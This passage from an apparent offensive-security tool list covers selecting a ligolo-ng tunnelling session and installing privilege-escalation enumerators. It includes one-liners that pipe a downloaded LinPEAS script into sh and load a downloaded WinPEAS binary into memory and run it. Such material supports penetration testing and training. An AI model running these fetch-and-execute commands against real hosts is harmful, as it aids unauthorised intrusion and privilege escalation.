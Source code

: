 Use the session command to select the agent.

```
ligolo-ng » session 
? Specify a session : 1 - nchatelain@nworkstation - XX.XX.XX.XX:38000
```

Full usage information can be found [here](https://github.com/nicocha30/ligolo-ng#using-ligolo-ng).

![image](https://user-images.githubusercontent.com/100603074/216729440-80871cad-4c06-4eb5-8e91-d083ea3f1d2b.png)

*Image used from https://github.com/nicocha30/ligolo-ng#demo*

Privilege Escalation
====================

### [🔙](#tool-list)[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

LinPEAS is a nice verbose privilege escalation for finding local privesc routes on Linux endpoints. 

**Install + Usage:**

```bash
curl -L "https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh" | sh
```

![image](https://user-images.githubusercontent.com/100603074/192070104-8a121544-5c88-4c24-8b2e-590700b345e7.png)

### [🔙](#tool-list)[WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

WinPEAS is a nice verbose privilege escalation for finding local privesc routes on Windows endpoints. 

**Install + Usage:** 

```bash
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")
```

![image](https://user-images.githubusercontent.com/100603074/192070193-fed8a0e8-b82a-4338-9209-6352f33ab6b8.png)

### [🔙](#tool-list)[linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

Linux smart enumeration is another good, less verbose, linux privesc tool for Linux.

**Install + Usage:** 

```bash
curl "https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh" -Lo lse.sh;chmod 700 lse.sh
```

![image](https://user-images.githubusercontent.com/100603074/192070258-2fe8727a-4b75-430d-a84e-da6605750de9.png)
